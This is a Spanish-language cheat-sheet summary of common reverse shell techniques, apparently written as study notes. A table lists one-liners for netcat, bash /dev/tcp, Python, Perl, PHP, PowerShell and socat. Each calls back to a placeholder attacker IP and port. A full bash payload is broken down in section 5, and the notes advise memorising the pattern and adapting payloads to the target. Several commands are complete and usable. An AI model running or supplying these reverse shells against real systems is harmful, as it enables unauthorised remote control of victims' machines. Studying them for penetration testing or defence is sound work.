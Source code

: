 **Resumen estructurado: Análisis de técnicas comunes de reverse shell**

---

### 1. Concepto básico de reverse shell

* Victim ejecuta código que abre conexión TCP hacia atacante.
* Sobre esta conexión redirige entrada y salida de un shell para control remoto.

---

### 2. Técnicas comunes y su principio

| Técnica        | Ejemplo básico                                   | Mecanismo principal                                        |                                                     |
| -------------- | ------------------------------------------------ | ---------------------------------------------------------- | --------------------------------------------------- |
| **Netcat**     | \`mkfifo /tmp/f; nc <IP> <PORT> < /tmp/f         | /bin/sh >/tmp/f 2>&1; rm /tmp/f\`                          | Usa pipe para simular stdin/stdout sobre socket TCP |
| **Bash TCP**   | `bash -i >& /dev/tcp/<IP>/<PORT> 0>&1`           | Bash abre socket TCP y redirige stdin/stdout al shell      |                                                     |
| **Python**     | `python -c 'import socket,subprocess,os; ...'`   | Socket TCP + `subprocess.Popen` para interactuar con shell |                                                     |
| **Perl**       | `perl -e 'use Socket;$i="<IP>";$p=<PORT>; ...'`  | Similar a Python, socket TCP + open shell bidireccional    |                                                     |
| **PHP**        | `php -r '$sock=fsockopen("<IP>",<PORT>); ...'`   | Socket PHP + proc\_open para control shell                 |                                                     |
| **PowerShell** | `powershell -c "... TCPClient ... exec iex ..."` | .NET TCPClient + ejecución remota dinámica                 |                                                     |
| **Socat**      | `socat TCP:<IP>:<PORT> EXEC:/bin/bash`           | Abstrae socket + shell, con soporte para pseudo-terminal   |                                                     |

---

### 3. Análisis común

* **Sockets TCP:** Establecen canal de comunicación entre victim y atacante.
* **Redirección de stdin/stdout:** Shell se conecta a socket, recibiendo y enviando datos.
* **Ejecutables intérpretes:** Bash, Python, Perl, PHP, PowerShell ejecutan código dinámico.
* **Pseudo-terminal (pty):** Mejora interacción, mantiene señalización y formatos.
* **Forking / multitarea:** Algunos métodos usan `fork` o procesos hijos para mantener conexión.
* **Limitaciones:** Firewalls, antivirus, versiones reducidas o ausencia de binarios.

---

### 4. Diagnóstico y testing

* Probar cada payload en entorno controlado.
* Verificar puertos abiertos, permisos y rutas a intérpretes.
* Observar estabilidad del shell, interacción, señales (Ctrl-C, Ctrl-Z).
* Adaptar payloads al entorno (Windows/Linux, shell disponible, versiones).

---

### 5. Ejemplo explicativo de un payload bash simple

```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

* `bash -i`: shell interactiva.
* `>& /dev/tcp/IP/PORT`: redirige stdout y stderr a socket TCP.
* `0>&1`: stdin redirigido a stdout, cerrando ciclo de comunicación.

---

### 6. Recomendación

* Memorizar estructura básica: **socket TCP + redirección stdio + ejecución shell**.
* Ajustar sintaxis según intérprete y sistema operativo.
* PayloadsAllTheThings es repositorio clave para variantes y ajustes.

---